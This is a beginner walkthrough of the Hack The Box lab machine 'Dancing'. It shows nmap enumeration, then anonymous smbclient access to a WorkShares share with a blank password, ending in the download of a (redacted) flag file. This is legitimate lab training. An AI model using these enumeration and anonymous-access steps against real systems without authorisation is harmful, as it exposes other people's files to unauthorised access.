


---
tags:
  - htb
  - starting-point
  - red-team
  - beginner
  - walkthrough
title: Dancing (Starting Point)
description: Quick enumeration and flag capture of the Dancing box in Hack The Box's Starting Point path.
date: 2025-04-09
---

# Dancing (Starting Point)

## Box Info

- **Difficulty:** Very Easy
- **IP Address:** 10.129.33.192
- **Attack Vector:** Server Message Block (SMB)
- **Flag Type:** User flag
- **Methodology:** Basic enumeration → access → retrieve flag

---

## Recon

### Nmap Scan

```bash
nmap -sC -sV -oA sources/ 10.129.33.192
```

- **Open Port(s):**  135/tcp  msrpc - RPC
139/tcp  netbios-ssn - SMB over NetBIOS (Legacy system)
445/tcp  microsoft-ds? - SMB
5985/tcp http
> [!note]
> Nmap noted that message signing is enabled but not required. This allows man-in-the-middle attacks.

### Nmap Screenshot


---

## Exploitation

- **Access Method:** SMB is active
- **Command(s) Used:**
  ```bash
  smbclient -L \\\\10.129.33.192
  ```
- **Password used:** Leave blank

### smbclient Screenshot

---
- **Flag Location:** WorkShares\\James.P\\flag.txt
- **Command to download Flag:**
  ```bash
  smbclient \\\\10.129.33.192\\WorkShares 
  cd James.P                              
  get flag.txt # Downloads flag.txt to the local directory 
               #              where you launched smbclient
  exit
  ```
> [!note] On Unix-like systems the backslash (\\) is an escape character. When accessing Microsoft systems such as SMB we need to use double backslashes. The first escapes the second, allowing it to be processed correctly.
---
- **Command to read flag:** 
```bash
cat flag.txt
```
- **Flag:** [Redacted]

---

## Notes

- Anonymous login allowed for WorkShares
- Learn how to navigate using smbclient

---

## Tools Used

| Tool      | Purpose               |
| --------- | --------------------- |
| nmap      | Port and service scan |
| smbclient | Access SMB shares     | 
